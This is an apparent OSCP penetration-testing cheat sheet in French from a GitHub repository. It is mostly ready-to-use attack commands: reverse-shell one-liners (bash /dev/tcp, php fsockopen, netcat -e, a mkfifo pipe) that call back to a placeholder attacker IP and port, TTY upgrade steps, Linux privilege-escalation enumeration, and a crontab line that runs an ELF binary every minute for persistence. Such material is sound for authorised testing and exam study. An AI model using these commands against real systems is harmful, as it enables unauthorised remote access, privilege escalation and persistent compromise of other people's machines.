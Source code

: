 <img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/f9d72356-a603-42c4-92b4-dfeff2f868b8" width="450">

## Reverse shell:
Ouvrir un port coté attaquant : nc -lvp [PORT]  
bash -i >& /dev/tcp/[IP]/[PORT] 0>&1  
php -r '$s=fsockopen("[IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'  
nc [IP] [PORT] -e /bin/bash  
cd /tmp ; rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc [IP] [PORT] > f  

Plus de méthodes ici : https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/  

### Spawn TTY:
•	python -c 'import pty; pty.spawn("/bin/sh")'  
•	SHELL=/bin/bash script -q /dev/null  
•	/usr/bin/script -qc /bin/bash /dev/null  
Upgrade reverse shell:  
1.	Ctrl + Z  
2.	stty raw -echo ; fg  
## Énumération :
**Liste les répertoires accessibles en écriture :** find / -type d -writable 2> /dev/null  
**Liste des SUID:** find / -type f -perm /6000 -ls 2>/dev/null  

**Script pour l'énumération :**  
•	lse.sh  
•	LinEnum.sh  
•	LinPEAS.sh  

**Voir la version du système :**  
•	Version du noyau: uname -mr  
•	Version de l'OS: lsb_release -a  

**Voir les processus qui sont executés en arrière-plan:**  
•	pspy  
•	Voir si il y a une crontab  de configurée: cat /etc/crontab  

**Voir les ports en écoute :**  
netstat -tulpn  
Exploitation des droits SUDO/SUID sur des binaires connu:  
https://gtfobins.github.io/
  
**Persistance via crontab:** (crontab -l 2>/dev/null; echo "* * * * * /home/aero/floflo.elf") | crontab -  

**Stegano:**  
https://www.aperisolve.com
